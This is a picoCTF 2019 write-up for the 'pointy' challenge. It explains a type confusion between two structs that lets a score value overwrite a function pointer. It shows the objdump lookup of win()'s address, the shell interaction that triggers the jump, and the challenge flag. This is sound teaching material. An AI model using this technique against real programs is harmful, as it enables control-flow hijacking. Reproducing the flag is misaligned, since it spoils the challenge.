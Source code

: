 ## Writeup for 2019 picoCTF: pointy
### Binary Exploitation

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign `win()`'s address to `scoreProfessor`. Access to `scoreProfessor` via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. `lastscore` and `scoreProfessor` have the same offset from the respective struct's address.  
2. The `student` and `professor` variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give `win()`'s address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to `win()`. Thus the next time `student->scoreProfessor` is called, win would be executed.  

### Solution: objdump
1. First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses. 
2. Pipe that ouput to `grep` to get only the win function section. You will find that `08048696` is win()'s address in hex, which converts to `134514326` as int / unsigned int.  

**Here is how the interaction in the shell goes**:
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
